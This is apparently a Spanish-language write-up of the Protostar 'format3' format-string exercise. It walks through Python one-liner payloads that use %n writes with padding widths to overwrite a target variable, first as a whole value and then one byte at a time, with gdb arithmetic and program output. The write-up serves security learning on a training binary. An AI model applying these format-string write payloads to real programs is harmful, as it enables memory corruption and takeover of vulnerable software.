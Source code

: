 Otra vez lo mismo, buscar una varaible con el objdump -t -> 080496f4 =  \xf4\x96\x04\x08
Esta vez en vez de tener que escribir un numero de bytes en concreto, hay que meter un valor en hexadecimal, es decir que la memoria a donde
apunte nuestro puntero (la direccion de la varaible) tiene que tener escrito esto: "01025544"

El padding esta vez son 12 direcciones de memoria
"%8x."\*12 -> "%12$x" -> escribir "%12$n"

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\xf4\x96\x04\x08" + "%12$n")' | ./format3 
��
target is 00000004 :(
```
Nos ha escrito el valor hexadecimal "0x4"
Si %d escribia bytes, %x escribe hexadecimal, (lo que hemos estado usando para printear las direcciones vaya)
Si nos sale 0x4 hay que restar lo que nos debe salir a lo que no sale y pasarle eso con el parametro x.

```console
[user@protostar]-[/opt/protostar/bin]:$ gdb
(gdb) p 0x01025544 - 00000004
$1 = 16930112
(gdb) quit
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\xf4\x96\x04\x08" + "%16930112x%12$n")' | ./format3 | tail -n1
you have modified the target :)
```

## Extra -> en vez de escribir los 4 bytes, escribimos de 1 en 1

Ahora como escribimos un byte por memoria, escribimos 4 memorias  (0x080496f4, f5, f6 y f7) Pero como no hay parejas de dos bytes que se cambien, pueden ir en el orden bueno

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08" + "%12$n%13$n%14$n%15$n")' | ./format3 | tail -n1
target is 10101010 :(
```
El ultimo byte tiene que ser 44 "01025544" -> primero por el endian \x44\x55\x02\x01""
```console
(gdb) print 0x44 - 0x10
$1 = 52
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08" + "%52x%12$n%13$n%14$n%15$n")' | ./format3 | tail -n1
target is 44444444 :(
```
Ahora las restas siguiendo la lógica de antes. Al segundo byte añadirle la diferencia (entre lo que nos sale y lo que nos debe salir)

```console
(gdb) p 0x55 - 0x44
$1 = 17
(gdb) quit
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08" + "%52x%12$n%17x%13$n%14$n%15$n")' | ./format3 | tail -n1
target is 55555544 :(
```
Y con el resto leña al mono
```console
(gdb) p 0x02 - 0x55
$2 = -83 -> Ha salido negativo asi que hay que meter un byte mas a la izquierda
(gdb) p 0x102 - 0x55
$3 = 173
[user@protostar]-[/opt/protostar/bin]:$python -c 'print("\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08" + "%52x%12$n%17x%13$n%173x%14$n%15$n")' | ./format3 | tail -n1
```